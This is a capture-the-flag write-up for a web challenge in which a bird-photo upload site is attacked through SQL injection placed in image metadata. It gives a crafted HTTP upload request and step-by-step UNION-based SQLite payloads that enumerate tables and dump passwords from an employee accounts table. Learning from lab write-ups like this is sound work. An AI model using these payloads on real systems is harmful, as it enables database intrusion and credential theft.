


# Gullible by Dovesign
**Category**: Web

**Level**: Medium

**Points**: 300

**Description**:
```markdown
I really like birds, so I made a website where people can upload their favorite bird pictures. It’s protected by state-of-the-art anti-bird prevention technology, so don’t bother trying to upload anything that isn’t a bird. Have fun birding!

https://dove.sdc.tf/
```

## Writeup


When you first visit the site, all that's present is a gallery of various bird pictures and a link to go to an upload page where you can submit your own bird photo. Based on the description, you know that there's some sort of filtering going on because it's protected by "state-of-the-art" anti-bird prevention technology". One of my teammates took a look at the challenge and remarked that bird names were stored in the metadata, and he could upload a photo of a dog and it was accepted as long as the metadata contained a bird name. However, I figured it was an unrestricted file upload vulnerability with some sort of filtering going on - time to see what I could upload through Burp Suite!



I took the photo that my teammmate sent in of the dog and uploaded it to see what was normal - a 200 OK response with the family that the bird belonged to. I started messing around with the photo to see what kind of checks it was doing - I mainly messed around with metadata (which the photo did NOT like) and also the content type and file extension. I found that there were really no restrictions on the content type and extension, so I could upload PHP files, EXEs, HTML files, and more. All I needed to do was figure out where on the web server it was stored. I couldn't quite find where it was stored (no downloads/uploads/files directory, and it wasn't stored in the images directory with the other birds already there), so I thought that I might have it wrong. 

I started to play a little more with the metadata and went really slow and deep. I started replacing parts of it with the letter `a` to see just how much it was looking for. I realized that if I changed the lengths of different parts of the photo, it got upset for some reason (probably some "length" header in the data somewhere), but I was able to replace almost all of the data sent with the letter `a` and still have it accept it as a photo (side note - if I deleted even one of the `a`s anywhere, it complained. Not 100% sure what exactly was going on here but \o/). This is the HTTP request that I ended up with about an hour or two later:

```
POST /upload HTTP/2
Host: dove.sdc.tf
Content-Length: 4058
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTftBBKnt97ase2ov

------WebKitFormBoundaryTftBBKnt97ase2ov
Content-Disposition: form-data; name="bird"; filename="aaaaaaaaaaaa"
Content-Type: aaaaaaaaa

ÿØaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaÿá
Uhttp://ns.adobe.com/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa aaaaaaaaaaaaaaaaaaaaaaaaaaaa<dc:description> <rdf:Alt> <rdf:li aaa:aaaa="aaaaaaaaa">Cardinalis cardinalis</rdf:li> </rdf:Alt> </dc:description>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
------WebKitFormBoundaryTftBBKnt97ase2ov--
```
If I changed the first two characters, I got an `This file is not an image! We only accept bird images!` error returned. If I changed anything else except the Species and Genus in the metadata, I would get an `We cannot determine whether this image is a bird or not. Sorry!` error. And if I messed up the Genus and Species, I would get the `The image aaaaaaaaaaaa does not seem to be a bird.` error. This is when something caught my eye. I started to mess with the values inserted in the metadata to get something else, and realized that we were putting in the Genus and Species, and getting the Family returned to us. So some sort of lookup was happening there... how else would it know the family? Maybe SQL injection?

I inserted a single quote `'` after `Cardinalis cardinalis` and got the response `Thank you for uploading a bird to the <em>SQLITE ERROR</em> family! Your support helps us grow!` - so I knew I was on the right track! It even told us the database type. Now, I might have been able to figure out how to put this in SQLmap so it could do all the hard work for me, but decided to do it by hand (using [PortSwigger](https://portswigger.net/web-security/sql-injection/union-attacks) as my guide). I first tried a UNION-based injection by inserting `' ORDER BY x--` in the metadata, and replacing `x` with a number until I reached an error - once I hit 4, I got an error. That means that the query was returning 3 columns. I used the `' UNION SELECT NULL,NULL,NULL--` payload just to make sure, and got the response `Thank you for uploading a bird to the <em>null</em> family! Your support helps us grow!`.

Now, I had to figure out which of the three columns was being displayed to me so I could see data. I also knew it was only returning 1 response, so I had to keep that in mind. I tried the 3 following payloads in order to see which ones showed `a` in the response:

```
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```

And it was the second! So as long as I could put the data in the second column, I could get the data. To enumerate the tables stored in the database, I used the `' UNION SELECT NULL,name,NULL FROM sqlite_master--` payload and got the response `Thank you for uploading a bird to the <em>birds</em> family! Your support helps us grow!`. I then added `WHERE name != 'birds'` at the end and got the response `employee_accts`. Spicy!!

After a little bit more enumerating column names, record counts, etc., I figured the flag was stored as the password of one of the 17 users in the database. Using the final payload `' UNION SELECT NULL,password,NULL FROM employee_accts WHERE password LIKE '%sdctf%'--`, the flag was returned!!

**Flag** - `sdctf{th3_e4r1y_b1rd_n3rd_g3t5_the_fl4g_a1e45fb4}`

## Real-World Application
When hackers think of SQL injection vulnerabilities, it's normally in login forms, search bars, and other obvious places, but I like how this challenge showed that they can be present even in the smallest and least likely places. In addition, it initially seemed like a file upload vulnerability (which definitely was present), but it wasn't until later and spending time seeing exactly what is accepted that I realized that it was actually a SQL injection vulnerability. Both of these vulnerabilities are very common in the real world and can be easily exploitable, so this challenge was a great way to learn how to do it.